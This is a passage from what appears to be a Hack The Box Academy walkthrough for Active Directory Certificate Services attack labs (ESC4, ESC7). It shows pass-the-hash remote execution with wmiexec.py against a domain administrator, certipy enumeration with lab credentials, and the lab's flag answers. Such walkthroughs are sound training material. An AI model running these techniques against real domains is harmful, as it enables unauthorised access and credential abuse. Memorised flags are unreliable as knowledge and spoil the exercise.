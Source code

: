 Code: shell

```shell
more C:\Users\molly\Desktop\flag.txt
```

```
C:\Windows\system32> more C:\Users\molly\Desktop\flag.txt

HTB{ESC4_MSPKI}
```

Alternatively, students can `pass-the-hash` `2b576acbe6bcfda7294d6bd18041b8fe` with `wmiexec.py` and exfiltrate the contents of the file `C:\Users\molly\Desktop\flag.txt` directly:

Code: shell

```shell
wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\molly\Desktop\flag.txt"
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ wmiexec.py -no-pass -hashes :2b576acbe6bcfda7294d6bd18041b8fe administrator@LAB-DC.lab.local "more C:\Users\molly\Desktop\flag.txt"

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
HTB{ESC4_MSPKI}
```

Answer: `HTB{ESC4_MSPKI}`

# ESC7

## Question 1

### "Which user has ManageCertificates rights?"

After spawning the target machine, students need to use `certipy` with the `find` command to enumerate the ADCS CA; students will discover that the user with the `ManageCertificates` rights is `Josy`:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
```